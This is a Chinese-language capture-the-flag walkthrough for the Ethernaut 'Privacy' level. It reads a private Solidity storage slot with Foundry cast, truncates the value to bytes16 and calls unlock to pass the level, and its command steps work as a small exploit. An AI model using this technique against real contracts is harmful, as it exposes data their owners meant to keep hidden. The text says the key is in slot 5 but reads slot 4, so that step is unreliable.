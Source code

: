 ### 第12关：Privacy 

这一关和第8关 Vault 有点类似，目的是要读取合约中的 bytes32[3] private data 变量。从代码布局
```solidity
contract Privacy {
    // 1 byte, slot 0
    bool public locked = true;
    // 32 bytes, slot 1
    uint256 public ID = block.timestamp;
    // 1 byte, slot 2
    uint8 private flattening = 10;
    // 1 byte, slot 2
    uint8 private denomination = 255;
    // 2 byte, slot 2
    uint16 private awkwardness = uint16(block.timestamp);
    // bytes32[0], 32 bytes, slot 3
    // bytes32[1], 32 bytes, slot 4
    // bytes32[2], 32 bytes, slot 5
    bytes32[3] private data;
}
```
如果你对变量的存储布局比较了解，可以推算一下 data 的 slot 位置，或者获取多一些比如 slot0~slot9 来观察一下。
可以推测出 password 存放在 slot5 中。



**使用 foundry cast 来读取存储槽4, 得到密码：**
```shell
cast storage 0x目标合约地址 4  --rpc-url=https://blastapi.io
 ```
 显示为 0xaa123456789012345678901234567890123456789012345678901234567890ff
这里涉及到一个数据类型的转换: 
```solidity
require(_key == bytes16(data[2]));
```
data[2] 是一个 bytes32 类型，转换为 bytes16 的话，会截断超出长度的部分，数据只保留高16位：0xaa123456789012345678901234567890，这个就是我们要找的答案了。

然后调用 unlock(bytes16 _key) 函数：
 ```shell
cast send 0x目标合约地址 "unlock(bytes16 _key)" 0xaa123456789012345678901234567890  --rpc-url=https://public.blastapi.io  --private-key=攻击者私钥
 ```

 点击 Submit Instance, 过关。
